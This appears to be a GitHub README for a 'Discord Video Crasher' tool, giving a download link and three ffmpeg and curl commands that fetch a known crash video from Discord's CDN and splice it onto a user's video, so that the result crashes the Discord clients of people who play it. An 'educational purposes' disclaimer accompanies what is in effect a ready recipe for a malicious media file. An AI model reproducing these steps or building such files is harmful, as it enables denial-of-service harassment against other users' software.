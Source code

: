 ## Discord Video Crasher

You can download the discord video crasher [here.](https://github.com/VapeLiminator/VideoCrasher/releases)



### How does it work?

It really just works very simply:

I'm going to ignore the specifying path's and othere stuff from here


## ffmpeg -i %videoname%.mp4 "01110101-01110101-01101000-01101000-01101000.mp4" 
## curl -ko "abc.mp4" "https://cdn.discordapp.com/attachments/965003761485492314/987416285216387142/FemaleAnimatedHyrax-mobile.mp4"
## ffmpeg -f concat -i uwu.txt -codec copy %crashername%.mp4

And that's the important part! the only thing left is removing the files we've created, and it's done.

**This has been made with educational purposes, I am not in charge for what you do with this program.**

### Need help?
NeumaticYT#6969 for error's found in the program, please do not spam, thanks.
